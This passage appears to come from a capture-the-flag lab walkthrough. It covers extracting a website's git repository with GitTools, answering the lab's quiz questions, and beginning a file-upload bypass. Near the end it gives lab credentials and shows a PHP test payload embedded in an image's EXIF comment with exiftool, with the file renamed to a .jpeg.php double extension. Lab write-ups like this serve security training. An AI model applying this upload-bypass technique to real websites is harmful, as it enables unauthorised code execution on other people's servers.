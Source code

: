 > now if we open the website lying on `10.200.101.100` we can see that the website now loaded

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Using the wappalyzer browser extension or an alternative method, identify the server-side Programming language (including the version number) used on the website | PHP 7.4.11 |

## Personal PC : The Wonders of Git

> downloading the `Website.git` folder from git server to local machine
```
download C:\Gitstack\Repositories\Website.git
```

> now rename internal folder to `.git` and clone the foloowing repo
```
git clone https://github.com/internetwache/GitTools
```
> now inside the `GitTools/Extractor` folder run the following command
```
./extractor.sh ../../Website.git/ ../../NewWebsite
```
> now we have a new folder `NewWebsite` in which we got all the files from the git backup


| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Use Your WinRm access to look around the Git server. What is the absolute path to the website.git directory? | C:\GitStack\repositories\website.git |
| 

## Personal PC : Website Code Analysis

> 

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| What does Thomas have to phone Mrs Walker about ? | neighbourhood watch meetings |
| Aside from the filter, what protection method is likely to be in place to prevent people from accessing this page ? | basic auth |
| Whcich extension are accepted (comma separated, no spaces or quotes) ? | jpg,jpeg,png,gif |

## Personal PC : Exploit PoC

> now lets head to `/resources` and login
* username : `thomas`
* password : `i<3ruby`

> adding the exiftool data into the image file
```
mv dogo.jpeg test-littlehuman.jpeg.php
exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" test-littlehuman.jpeg.php 

```
> now connect the foxyproxy and brows the following path from browser
```
10.200.101.100/resources/uploads/test-littlehuman.jpeg.php

```

